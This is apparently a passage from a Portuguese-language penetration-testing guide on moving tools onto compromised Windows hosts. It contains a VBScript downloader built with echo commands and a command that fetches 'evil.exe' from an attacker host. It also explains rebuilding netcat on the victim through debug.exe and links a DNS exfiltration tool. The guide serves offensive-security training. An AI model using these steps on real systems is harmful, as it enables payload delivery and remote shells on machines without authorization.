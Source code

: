 ```bash
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

```bash
cscript wget.vbs http://10.11.0.5/evil.exe evil.exe
```

## Debug.exe

Esta é uma técnica maluca que funciona em máquinas Windows de 32 bits. Basicamente, a ideia é usar o programa `debug.exe`. Ele é usado para inspecionar binários, como um debugger. Mas ele também pode reconstruí-los a partir de hexadecimal. Então a ideia é pegarmos um binário como o `netcat`. Em seguida, desmontá-lo em hexadecimal, colar ele em um arquivo na máquina comprometida, e então remontá-lo com o `debug.exe`.

O `Debug.exe` só pode montar 64 kb. Portanto, precisamos usar arquivos menores que isso. Podemos usar o upx para compactá-lo ainda mais. Então vamos fazer isso:

```text
upx -9 nc.exe
```

Agora ele pesa apenas 29 kb. Perfeito. Agora vamos desmontá-lo:

```text
wine exe2bat.exe nc.exe nc.txt
```

Agora, basta copiar e colar o texto na nossa shell do windows. E ele irá criar automaticamente um arquivo chamado nc.exe

## DNS

[https://github.com/62726164/dns-exfil](https://github.com/62726164/dns-exfil)